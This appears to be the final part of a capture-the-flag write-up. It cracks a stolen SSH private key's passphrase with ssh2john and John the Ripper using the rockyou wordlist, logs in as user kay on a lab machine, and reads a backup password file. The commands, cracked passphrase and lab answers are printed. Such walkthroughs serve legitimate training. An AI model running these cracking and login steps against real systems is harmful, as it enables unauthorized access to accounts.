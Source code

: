 `No answer needed`

11. What is the final password you obtain?

`/usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa.jtr`

`john --w=/usr/share/wordlists/rockyou.txt kay_id_rsa.jtr`

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
1g 0:00:00:12 DONE (2020-09-15 09:05) 0.08143g/s 1167Kp/s 1167Kc/s 1167KC/sa6_123..*7¡Vamos!
Session completed
```

`ssh -i kay_id_rsa kay@10.10.103.107` Passphrase: `beeswax`

```
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
